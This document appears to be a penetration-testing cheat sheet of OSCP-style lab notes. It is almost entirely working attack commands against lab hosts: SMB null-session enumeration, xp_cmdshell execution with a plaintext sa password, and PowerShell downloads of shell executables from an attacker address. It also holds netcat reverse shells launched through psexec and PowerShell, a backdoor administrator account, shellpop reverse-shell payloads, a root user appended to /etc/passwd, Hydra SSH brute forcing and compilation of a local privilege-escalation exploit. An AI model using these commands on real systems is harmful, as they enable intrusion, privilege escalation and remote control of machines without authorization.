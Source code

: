 #### SMB commands
smbmap -H 10.11.1.136 -u null -p ""   
smbmap -H 10.11.1.136 -u null -p "" -R   
smbclient \\\\10.11.1.136\\'Bob Share' ""    

#### xp_cmdshell
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,ms-sql-xp-cmdshell.cmd="net user" 10.11.1.31 

#### transfer files on windows
powershell -c (Invoke-WebRequest -Uri 'http://10.11.0.232/rev.exe' -OutFile 'C:\Users\Public\rev.exe')    
powershell -c (new-object System.Net.WebClient).DownloadFile('http://10.11.0.232/shell.exe','C:\Users\Public\shell.exe')   

#### execute cmd as another user (windows)
psexec.exe -u alice -p some-pass "c:\Users\Public\nc.exe" 10.11.0.49 443 -e cmd.exe

#### (.ps1 script)
$passwd = ConvertTo-SecureString "some-pass" -AsPlainText -Force   
$mycreds = New-Object System.Management.Automation.PSCredential ("alice", $passwd)    
$computer = "bethany"    
[System.Diagnostics.Process]::Start("C:\Users\Public\nc.exe"," -nvv 10.11.0.254 8082 -e cmd.exe",    
$mycreds.Username, $mycreds.Password, $computer)   

#### add windows admin user
net user sl0wly sl0wly /add   
net localgroup administrators sl0wly /add    

#### shellpop
shellpop --list 

#### shellpop reverse tcp
shellpop --payload linux/reverse/tcp/bash --host tap0 --port 443 --base64      
shellpop --payload linux/reverse/tcp/php --host tap0 --port 443     
shellpop --payload windows/reverse/tcp/powershell --host tap0 --port 443 --base64      

#### /etc/passwd writeable
echo 'slow:aaKNIEDOaueR6:0:0:slow:/root:/bin/bash' >> /etc/passwd   
su slow   
(foo)  

#### RDP
rdesktop -u sl0wly 10.11.1.31

#### HYDRA BF
hydra -l root -P /usr/share/wordlist/rockyou.txt -T 20 10.11.1.71 ssh

#### compling .exe on kali
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32

#### TMUX 
tmux new-session -d -s alice s    
tmux send-keys -t alice "AR 10.11.1.5 -o /git/oscp/labs"    

